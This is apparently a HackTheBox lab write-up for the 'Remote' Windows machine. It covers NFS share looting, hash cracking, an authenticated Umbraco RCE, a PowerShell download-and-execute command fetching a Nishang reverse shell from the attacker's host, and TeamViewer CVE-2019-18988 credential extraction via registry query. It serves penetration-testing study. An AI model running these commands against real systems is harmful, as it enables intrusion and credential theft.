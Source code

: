 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Remote/logo.png
date: 2023-12-16 09:45:47+07:00
modified: 2023-12-16 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/2984
  name: mrb3n
tags: [Remote, Umbraco CMS, NFS, FTP, TeamViewer, RCE, Nishang, PowerShell, CVE-2019-18988, Windows, Privilege Escalation, WINRM, Crackstation, ExploitDB, Exploitation, Enumeration, Reverse Shell, Credential Dumping, Anonymous, Decrypt, CME, OSCP, Writeup]
title: Remote - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Remote is an **easy** difficulty Windows machine that features an Umbraco CMS installation. Credentials are found in a world-readable NFS share. Using these, an authenticated Umbraco CMS exploit is leveraged to gain a foothold. A vulnerable TeamViewer version is identified, from which we can gain a password. This password has been reused with the local administrator account. Using psexec with these credentials returns a SYSTEM shell. 


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.180`

`nmap -sC -sV -p21,22,80,135,139,445,5985,39517 10.10.10.180 -oA ./nmap/remote `

|Ports|Service
|:-------------:|:-------------:|
|21| ftp     Microsoft ftpd
|80| http    Microsoft HTTPAPI httpd 2.0 
|111| rpcbind
|139| netbios-ssn Microsoft Windows netbios-ssn
|445| microsoft-ds
|2049| nlockmgr
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Remote/1.png)

First I checked the FTP server. It allowed for anonymous login but it was empty.

![](https://photos.squarezero.dev/file/abir-images/Remote/2.png)

Next, I check out the website. On the `/people` there are some names we can take notes of.

![](https://photos.squarezero.dev/file/abir-images/Remote/3.png)

I ran `dirsearch` in the background and found some interesting directories.

```Bash
dirsearch -u http://10.10.10.180 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Remote/4.png)

We can find a login page at `/umbraco` which is a CME. 

![](https://photos.squarezero.dev/file/abir-images/Remote/5.png)

We can find a NFS share.

![](https://photos.squarezero.dev/file/abir-images/Remote/6.png)

Let's mount the share.

```bash
mkdir target-NFS
sudo mount -t nfs 10.10.10.180:/site_backups ./target-NFS -o nolock
cd target-NFS
```
![](https://photos.squarezero.dev/file/abir-images/Remote/7.png)


# Foothold

After looking for a bit I found `Umbraco.sdf` and we can password hashes for users inside it

![](https://photos.squarezero.dev/file/abir-images/Remote/8.png)

I used [crackstation](https://crackstation.net/)

![](https://photos.squarezero.dev/file/abir-images/Remote/9.png)

Creds → `admin@htb.local : baconandcheese`

I can now log into the website admin panel.

![](https://photos.squarezero.dev/file/abir-images/Remote/10.png)

After looking for a bit I found this authenticated RCE exploit from [ExploitDB](https://www.exploit-db.com/exploits/49488). I downloaded the Python file and checked out the payload.
It takes the user and password for authentication, takes the type of shell and uses arguments to execute.

![](https://photos.squarezero.dev/file/abir-images/Remote/11.png)

We have RCE on the server now.

```bash
python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "whoami"
```

![](https://photos.squarezero.dev/file/abir-images/Remote/12.png)

Next, I used [Nishang](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1` to get a shell.

At the bottom of the PowerShell script, I added my reverse shell IP and port.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 4444`

Then hosted the payload using the python3 server.

`python3 -m http.server`

After that I used RCE payload to download my PowerShell script and get a shell

```bash
python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')"
```

![](https://photos.squarezero.dev/file/abir-images/Remote/13.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/14.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/15.png)


# Privilege Escalation

In tasklist We can see `TeamViewer_Service.exe`

![](https://photos.squarezero.dev/file/abir-images/Remote/16.png)

After looking for a bit I found this [CVE-2019-18988](https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat) where Teamviwer leaking creds.

![](https://photos.squarezero.dev/file/abir-images/Remote/17.png)

We can leak the creds using this

`reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`

![](https://photos.squarezero.dev/file/abir-images/Remote/18.png)

Next, I used this decryptor to decrypt the password. 

![](https://photos.squarezero.dev/file/abir-images/Remote/19.png)

Creds → `administrator : !R3m0te!`

Now we can use WINRM to log in and get the flag.


![](https://photos.squarezero.dev/file/abir-images/Remote/20.png)